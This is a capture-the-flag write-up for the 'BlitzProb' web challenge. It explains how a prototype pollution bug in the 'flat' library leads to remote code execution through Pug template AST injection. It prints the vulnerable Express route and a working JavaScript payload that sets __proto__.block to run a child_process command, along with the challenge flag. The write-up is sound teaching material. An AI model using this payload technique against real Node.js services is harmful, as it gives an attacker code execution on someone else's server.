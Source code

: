 ```yaml
---
title: BlitzProb
date: 2021-04-25 10:13:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contains a _Prototype Pollution_ to RCE via _AST Injection_. You can read more about it in this great [blog](https://blog.p6.is/AST-Injection/) post. (\* ^ ω ^)

Upon visiting the entry point, we are greeted with a aesthetic, futuristic looking feedback form. We are provided with a list of songs from a famous alien band named __Blitz Prop__ and asked to choose our favorite.

![](/assets/img/blitzProb_web.png#center)

## Vulnerability
If we go through the source code, we can see in the file `routes/index.js` that the `unflatten` function is the only thing processing our input. It turns the JSON that is send to it back into an object. What if we could write or overwrite other items in Node's object space?

The vulnerable code of the challenge:

``` javascript
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
	const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});

module.exports = router;
```

After reviewing the `package.json` file we can see that "flat" “5.0.0” is installed, which suffers from a _Prototype Pollution_ vulnerability. [Here](https://github.com/hughsk/flat/issues/105) you can find the PoC. 

How do we exploit this? There are no _if_ branches to bypass in the code. The default object space only has functions to overwrite, but since we can only submit valid JSON, we cannot define our own functions.

**Note:** This is because function definitions are not valid JSON.<br>You can overwrite a function with a payload such as `{ 'Object.__proto__.toString': '() => return "Foo"' }` but it will eventually break everything, as a critical _function_ has now been redefined as a _string_.

We can achieve RCE if we can find an `exec()` or `eval()` statement anywhere in our application. Maybe Pug?

The `pug.compile` function converts a _string_ into a template _function_ and passes the _object_ for reference. It is a method to check the use of pug template engine in a black-box environment using prototype pollution.

When we insert AST into the `Object.prototype.block`, the compiler adds it to the buffer by referring to the value... (be sure to read the previously mentioned blog for a detailed explanation)... AST generated by `pug-parser` is passed to the `pug-code-gen` and made into a function and finally, it will be executed.

## Exploitation
To exploit this vulnerability and read the flag, we simply open the web console and send the payload below to "/api/submit":

```javascript
let CMD = "process.mainModule.require('child_process').execSync('cat /app/flag* >> /app/static/flag.txt')"

fetch('/api/submit', {
	method: 'POST',
	body: JSON.stringify({
		'song.name': "Not Polluting with the boys",
		"__proto__.block": {
			"type": "Text", 
			"line": CMD
		}
	}),
	headers: {'Content-Type': 'application/json'}
})
```

The flag file has been written to the _static_ directory (the only place where we have write access). After visiting `static/flag.txt` we see the flag:

> CHTB{p0llute_with_styl3}

٩(◕‿◕｡)۶
